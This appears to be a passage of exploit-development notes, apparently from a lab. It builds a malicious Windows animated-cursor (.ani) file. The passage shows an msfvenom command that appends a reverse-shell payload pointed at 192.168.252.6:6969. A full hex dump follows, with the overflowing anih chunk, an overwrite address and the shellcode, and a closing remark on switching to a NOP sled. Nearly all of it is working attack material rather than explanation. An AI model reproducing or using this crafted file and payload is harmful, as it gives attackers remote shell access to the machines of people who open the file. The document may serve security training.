

Append payload to ANI file
Appending$ sudo sh -c "msfvenom -p windows/shell_reverse_tcp lhost=192.168.252.6 lport=6969 -f raw >> mod5.ani"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
$ xxd mod5.ani
00000000: 5249 4646 eb16 0000 4143 4f4e 616e 6968 RIFF....ACONanih
00000010: 2400 0000 2400 0000 0200 0000 eb79 0000 $...$........y..
00000020: 0000 0000 0000 0000 0000 0000 0000 0000 ................
00000030: 0000 0000 0100 0000 616e 6968 5600 0000 ........anihV...
00000040: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA
00000060: 0041 4141 4141 4141 4141 4141 4141 4141 .AAAAAAAAAAAAAAA
00000070: 4141 4141 4141 4141 4141 4141 0000 0000 AAAAAAAAAAAA....
00000080: 0000 0000 0000 0000 0000 0000 0000 0000 ................
00000090: 4242 4242 0b70 cccc fce8 8200 0000 6089 BBBB.p........`.
000000a0: e531 c064 8b50 308b 520c 8b52 148b 7228 .1.d.P0.R..R..r(
000000b0: 0fb7 4a26 31ff ac3c 617c 022c 20c1 cf0d ..J&1..<a|., ...
000000c0: 01c7 e2f2 5257 8b52 108b 4a3c 8b4c 1178 ....RW.R..J<.L.x
000000d0: e348 01d1 518b 5920 01d3 8b49 18e3 3a49 .H..Q.Y ...I..:I
000000e0: 8b34 8b01 d631 ffac c1cf 0d01 c738 e075 .4...1.......8.u
000000f0: f603 7df8 3b7d 2475 e458 8b58 2401 d366 ..}.;}$u.X.X$..f
00000100: 8b0c 4b8b 581c 01d3 8b04 8b01 d089 4424 ..K.X.........D$
00000110: 245b 5b61 595a 51ff e05f 5f5a 8b12 eb8d $[[aYZQ..__Z....
00000120: 5d68 3332 0000 6877 7332 5f54 684c 7726 ]h32..hws2_ThLw&
00000130: 07ff d5b8 9001 0000 29c4 5450 6829 806b ........).TPh).k
00000140: 00ff d550 5050 5040 5040 5068 ea0f dfe0 ...PPPP@P@Ph....
00000150: ffd5 976a 0568 c0a8 fc06 6802 001b 3989 ...j.h....h...9.
00000160: e66a 1056 5768 99a5 7461 ffd5 85c0 740c .j.VWh..ta....t.
00000170: ff4e 0875 ec68 f0b5 a256 ffd5 6863 6d64 .N.u.h...V..hcmd
00000180: 0089 e357 5757 31f6 6a12 5956 e2fd 66c7 ...WWW1.j.YV..f.
00000190: 4424 3c01 018d 4424 10c6 0044 5450 5656 D$<...D$...DTPVV
000001a0: 5646 564e 5656 5356 6879 cc3f 86ff d589 VFVNVVSVhy.?....
000001b0: e04e 5646 ff30 6808 871d 60ff d5bb f0b5 .NVF.0h...`.....
000001c0: a256 68a6 95bd 9dff d53c 067c 0a80 fbe0 .Vh......<.|....
000001d0: 7505 bb47 1372 6f6a 0053 ffd5 u..G.roj.S..
Setting NOP SLED instead of CC interrupt